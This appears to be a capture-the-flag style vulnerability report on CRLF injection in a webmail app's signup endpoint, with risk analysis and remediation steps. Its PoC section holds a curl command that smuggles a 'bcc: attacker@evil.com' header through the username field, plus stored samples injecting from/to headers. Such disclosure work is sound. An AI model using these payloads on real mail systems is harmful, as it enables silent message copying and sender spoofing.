


# Description

CRLF injection (CWE-93) on the TrackBox webmail registration endpoint `POST /signup` (`Pages.py:118-149`). The username field is not sanitised for `\r\n` sequences. On signup, the username is stored as part of the `destination` field in the email database. A username carrying CRLF plus arbitrary header-like strings is persisted with the CRLF sequences intact (after lowercasing and appending `@tbox.traced`). The stored injection is visible in the unauthenticated `GET /api/emails` dump. If these values were used unsafely in SMTP headers, the CRLF sequences could introduce additional headers (`Bcc:`, `From:`, etc.).

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Register with CRLF in the username field. | The CRLF payload is stored in the welcome email's `destination` field. |
| 2 | Read `/api/emails` (unauthenticated). | Destination field shows the injected header-like text. |

# PoC

**1. Inject a `Bcc:` via the registration username:**

```bash
curl -sk -X POST "https://webmail.<TARGET>/signup" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "Ufield=legit_user%0d%0abcc%3a+attacker%40evil.com&Pfield=Test1234!&CPfield=Test1234!"
```

**2. Confirm the stored injection in the mailbox dump:**

Example email entry from `GET /api/emails` (not the complete API response):

```json
{"destination": "legit_user\r\nbcc: attacker@evil.com@tbox.traced", "subject": "Welcome !"}
```



Multiple injected variants are persisted and observable:

```text
ID=43 dest='injecttest\r\nbcc: attacker@evil.com@tbox.traced'
ID=51 dest='test\r\nfrom: evil@evil.com\r\n@tbox.traced'
ID=52 dest='test\r\nto: victim@company.com\r\n@tbox.traced'
```



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | CRLF-tainted data is stored in the database. If used unsafely in SMTP headers, it could enable silent `Bcc:` copies. Currently, the webmail uses direct DB inserts (no SMTP), so no header-based email disclosure is demonstrated. |
| Integrity | Tainted `destination` field pollutes the email database; `From:`/`To:` spoofing would require unsafe use in an SMTP transport. |
| Availability | None directly. |

Overall severity: **High** (challenge classification). The demonstrated impact is persistent CRLF injection into the email destination field, observable through the unauthenticated `/api/emails` endpoint. SMTP header injection is not demonstrated in the current implementation. The exposure of sensitive email content through `/api/emails` is a separate issue.

# Remediation

1. **Reject/strip `\r` and `\n`** in the username and any value that flows into mail headers.
2. **Validate the e-mail destination** against a strict address grammar before sending.
3. **Build messages with a hardened mail library** that encodes headers and forbids embedded newlines.

# Author

CHILL HUNT
